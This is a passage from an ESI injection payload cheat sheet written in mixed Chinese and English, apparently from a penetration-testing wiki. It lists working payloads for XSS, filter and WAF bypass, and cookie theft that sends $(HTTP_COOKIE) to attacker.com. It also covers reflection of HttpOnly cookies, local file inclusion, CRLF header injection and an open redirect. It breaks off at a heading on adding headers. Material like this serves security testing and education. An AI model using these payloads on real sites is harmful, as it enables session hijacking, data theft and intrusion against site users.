 #### XSS

以下 ESI 指令将在服务器的响应中加载任意文件
```xml
<esi:include src=http://attacker.com/xss.html>
```
#### 绕过客户端 XSS 保护
```xml
x=<esi:assign name="var1" value="'cript'"/><s<esi:vars name="$(var1)"/>>alert(/Chrome%20XSS%20filter%20bypass/);</s<esi:vars name="$(var1)"/>>

Use <!--esi--> to bypass WAFs:
<scr<!--esi-->ipt>aler<!--esi-->t(1)</sc<!--esi-->ript>
<img+src=x+on<!--esi-->error=ale<!--esi-->rt(1)>
```
#### Steal Cookie

* 远程窃取 Cookie
```xml
<esi:include src=http://attacker.com/$(HTTP_COOKIE)>
<esi:include src="http://attacker.com/?cookie=$(HTTP_COOKIE{'JSESSIONID'})" />
```
* 通过在响应中反射来利用 XSS 偷取 cookie HTTP\_ONLY： 

{% code overflow="wrap" %}
```bash
# This will reflect the cookies in the response
<!--esi $(HTTP_COOKIE) -->
# Reflect XSS (you can put '"><svg/onload=prompt(1)>' URL encoded and the URL encode eveyrhitng to send it in the HTTP request)
<!--esi/$url_decode('"><svg/onload=prompt(1)>')/-->

# It's possible to put more complex JS code to steal cookies or perform actions
```
{% endcode %}

#### 私有本地文件

不要将其与“本地文件包含”混淆：
```markup
<esi:include src="secret.txt">
```
#### CRLF
```markup
<esi:include src="http://anything.com%0d%0aX-Forwarded-For:%20127.0.0.1%0d%0aJunkHeader:%20JunkValue/"/>
```
#### Open Redirect

以下内容将向响应添加一个 `Location` 头部
```bash
<!--esi $add_header('Location','http://attacker.com') -->
```
#### 添加头部
